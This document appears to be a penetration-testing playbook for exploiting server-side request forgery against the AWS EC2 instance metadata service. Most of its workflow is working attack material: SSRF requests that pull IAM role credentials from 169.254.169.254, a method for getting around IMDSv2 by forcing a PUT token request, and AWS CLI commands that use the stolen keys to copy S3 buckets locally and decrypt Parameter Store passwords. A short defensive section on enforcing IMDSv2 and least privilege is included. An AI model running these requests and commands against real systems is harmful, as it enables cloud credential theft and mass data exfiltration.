

# AWS Metadata SSRF Exploitation (IMDS)

## When to Use
- When identifying a robust Server-Side Request Forgery (SSRF) vulnerability on a web application explicitly hosted on Amazon Web Services (AWS) architecture (e.g., an EC2 instance or Elastic Beanstalk).
- To aggressively acquire high-privileged, temporary AWS IAM (Identity and Access Management) credentials to fundamentally escape the constrained Web Application payload boundary and directly compromise the overarching cloud infrastructure.
- To map backend infrastructure topology dynamically utilizing internal VPC IP ranges available natively within the metadata directory.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Identifying the Metadata Endpoint Target

```http
# Concept: AWS EC2 instances natively host an invisible, non-routable link-local IP address 
# (169.254.169.254) exclusively accessible ONLY from INSIDE the EC2 instance itself.
# It provides massive amounts of configuration metadata regarding the server instance.
# If an SSRF vulnerability exists, the attacker commands the vulnerable EC2 server to HTTP GET 
# its own metadata endpoint and return the secrets identically in the web response.

# Standard Target URIs (IMDSv1):
# http://169.254.169.254/latest/meta-data/
# http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### Phase 2: Exploiting IMDSv1 (Unprotected Metadata)

```http
# Concept: If the EC2 instance utilizes older infrastructure (IMDSv1), the endpoint natively 
# accepts standard HTTP GET requests identically without requiring special authentication headers.

# 1. Execute the SSRF capturing the IAM Role Target Name
# Request:
GET /vulnerable_feature?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1
Host: www.target-app.com

# Response (Identifies the Role attached to the EC2):
HTTP/1.1 200 OK
Production_Web_App_Role

# 2. Extract the Temporary Credentials inherently assigned to that Role
# Request:
GET /vulnerable_feature?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/Production_Web_App_Role HTTP/1.1

# Response (The Loot):
HTTP/1.1 200 OK
{
  "Code" : "Success",
  "LastUpdated" : "2024-03-24T12:00:00Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "ZxyY...",
  "Token" : "IQoJb3JpZ2luX2VjEJv...",
  "Expiration" : "2024-03-24T18:00:00Z"
}
```

### Phase 3: Bypassing Advanced Protections (IMDSv2)

```http
# Concept: AWS released IMDSv2 to explicitly kill simple SSRF attacks. IMDSv2 inherently 
# demands a complex scenario: 
# 1. You MUST first execute an HTTP PUT request to generate a highly specific Session Token.
# 2. You MUST include that exact Token in all subsequent HTTP GET HTTP headers.
# Most simplistic SSRF vulnerabilities purely accept URLs via GET and CANNOT manipulate HTTP 
# Verbs or Headers, rendering IMDSv2 fundamentally immune.
# HOWEVER, if the SSRF allows header injection or complex fetching (e.g., CRLF injection), it can be bypassed.

# Attacking IMDSv2 (Assuming sophisticated SSRF capabilities):
# Step 1: Request the Token (TTL 21600 seconds)
# Attack Vector: Forcing the SSRF proxy to execute a PUT request appending the mandatory header.
PUT /latest/api/token HTTP/1.1
X-aws-ec2-metadata-token-ttl-seconds: 21600

# Step 2: Utilize the retrieved Token to access the credentials
GET /latest/meta-data/iam/security-credentials/Production_Web_Role HTTP/1.1
X-aws-ec2-metadata-token: [INSERT_GENERATED_TOKEN]
```

### Phase 4: Escalation using the Stolen Keys

```bash
# Concept: The attacker is no longer a standard web hacker; they are intrinsically authenticated 
# within the AWS infrastructure utilizing the EC2's intrinsic permissions.

# 1. Configure the AWS CLI locally utilizing the stolen dynamic keys.
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=ZxyY...
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2V...

# 2. Enumerate assigned Privileges
aws sts get-caller-identity
aws iam get-role --role-name Production_Web_App_Role

# 3. Exploit Cloud Infrastructure Endpoints
# If the EC2 role is highly over-privileged identically, execute critical systemic commands:
# - Dump all S3 Buckets containing proprietary data:
aws s3 ls
aws s3 sync s3://internal-financial-bucket/ ./local_loot/

# - Access AWS Systems Manager (SSM) Parameter Store to steal other master passwords:
aws ssm get-parameters --names "PROD_DB_PASSWORD" --with-decryption
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Enforce IMDSv2 Natively**: Systematically mandate IMDSv2 unconditionally across all executing EC2 instances within the AWS organization via Service Control Policies (SCPs). IMDSv2's intrinsic requirement for a preliminary `PUT` request establishing a dynamic session token, coupled inextricably with the mandatory custom header (`X-aws-ec2-metadata-token`), eliminates >98% of all standard SSRF application vulnerabilities from pivoting.
- **Principle of Least Privilege (IAM Roles)**: Often, developers aggressively assign an `AmazonS3FullAccess` or `AdministratorAccess` policy directly to the foundational EC2 IAM Role out of negligence. Strictly constrain the IAM Role explicitly attached to the compute resource. If the EC2 server requires writing logging files to a specific S3 bucket (`logs-bucket`), the IAM policy must exclusively allow `s3:PutObject` distinctly against that absolute ARN, and nothing else.
- **Network Level Restrictions (iptables)**: For EC2 workloads (e.g., generalized containerized nodes) that fundamentally never require querying the metadata service organically, execute robust local firewalls (e.g., `iptables`) preventing the `root` or `www-data` user dynamically from establishing any outbound routing to `169.254.169.254`.

## Key Concepts
| Concept | Description |
|---------|-------------|
| SSRF (Server-Side Request Forgery) | A severe web vulnerability permitting an attacker to identically hijack the backend server application, forcing it to violently make arbitrary HTTP requests to internal, non-internet-facing infrastructure on their behalf |
| IMDS (Instance Metadata Service) | An AWS component executing natively on link-local IP `169.254.169.254`, providing running EC2 instances highly critical runtime configuration data securely without needing it hardcoded |
| Temporary Security Credentials | STS tokens organically generated identically by IMDS establishing the EC2's explicit IAM Role rights. Constantly rotating natively, but highly devastating if fundamentally compromised securely by an adversary |
| IMDSv2 | An updated architectural standard intrinsically demanding dynamic cryptographic tokens exclusively via HTTP Headers deliberately engineered to eradicate superficial SSRF extraction attacks |

## Output Format
```
Cloud Compromise Report: Severe AWS Privilege Escalation via SSRF & IMDS
========================================================================
Vulnerability: Server-Side Request Forgery leading to IAM Compromise
Target Instance: `web-prod-api` (VPC ID: vpc-1234abcd)
Severity: Critical (CVSS 10.0)

Description:
A comprehensive SSRF vulnerability was discovered identically within the `export_pdf` functional endpoint utilizing the `?url=` parameter on the primary production SaaS application. 

The underlying AWS EC2 instance was defectively configured exclusively permitting obsolete IMDSv1 queries natively. 

The attacker unequivocally pivoted the SSRF payload directing the server aggressively to `http://169.254.169.254/latest/meta-data/iam/security-credentials/S3-Admin-Role`. The metadata service instantaneously relinquished the temporary `STS Session Token`, `AccessKeyId`, and `SecretAccessKey` mapped fundamentally to the `S3-Admin-Role`.

Because the attached IAM Role flagrantly violated the Principle of Least Privilege (possessing `s3:*` rights universally rather than explicitly constrained), the attacker configured a rogue AWS CLI session identically assuming the EC2's exact identity.

Impact Conclusion:
The attacker seamlessly executed `aws s3 sync s3://customer-db-backups ./local` dumping 4.5 Terabytes of highly confidential SQL relational database archives comprising absolute systemic data exfiltration without tripping standard WAF alerts or network IDS (as the traffic originated legitimately from the AWS API seamlessly).
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

## References
- AWS Documentation: [Configuring the Instance Metadata Service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- Rhino Security Labs: [AWS IAM Privilege Escalation Methods](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- HackTricks: [AWS SSRF Exploits](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf)
